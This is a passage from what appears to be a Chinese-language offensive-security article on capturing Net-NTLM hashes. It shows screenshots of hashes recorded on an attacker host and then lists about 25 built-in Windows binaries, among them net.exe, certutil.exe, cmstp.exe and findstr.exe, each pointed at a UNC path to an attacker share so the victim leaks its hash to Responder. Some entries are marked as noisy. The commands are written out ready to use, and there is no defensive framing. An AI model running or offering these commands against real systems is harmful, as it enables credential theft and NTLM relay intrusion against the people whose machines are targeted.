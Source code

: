 [![](assets/1701222524-52b24f30a0025f410a52200055fe1c3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128140934-b38037e4-8db4-1.png)  
之后在我们的攻击主机中可以看到被记录的 Net-NTLM Hash 值：  
[![](assets/1701222524-6f01fe878bf2c50128aab577452ca10f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128140947-bb6831d2-8db4-1.png)  
我们使用以下命令也可以在 responder 中获取到 Net-NTLM Hash 值：

```plain
> net.exe use \hostshare 
> attrib.exe \hostshare  
> bcdboot.exe \hostshare  
> bdeunlock.exe \hostshare  
> cacls.exe \hostshare  
> certreq.exe \hostshare #(noisy, pops an error dialog) 
> certutil.exe \hostshare  
> cipher.exe \hostshare  
> ClipUp.exe -l \hostshare  
> cmdl32.exe \hostshare  
> cmstp.exe /s \hostshare  
> colorcpl.exe \hostshare #(noisy, pops an error dialog)  
> comp.exe /N=0 \hostshare \hostshare  
> compact.exe \hostshare  
> control.exe \hostshare  
> convertvhd.exe -source \hostshare -destination \hostshare  
> Defrag.exe \hostshare  
> diskperf.exe \hostshare  
> dispdiag.exe -out \hostshare  
> doskey.exe /MACROFILE=\hostshare  
> esentutl.exe /k \hostshare  
> expand.exe \hostshare  
> extrac32.exe \hostshare  
> FileHistory.exe \hostshare #(noisy, pops a gui)  
> findstr.exe * \hostshare  
> fontview.exe \hostshare #(noisy, pops an error dialog)  
```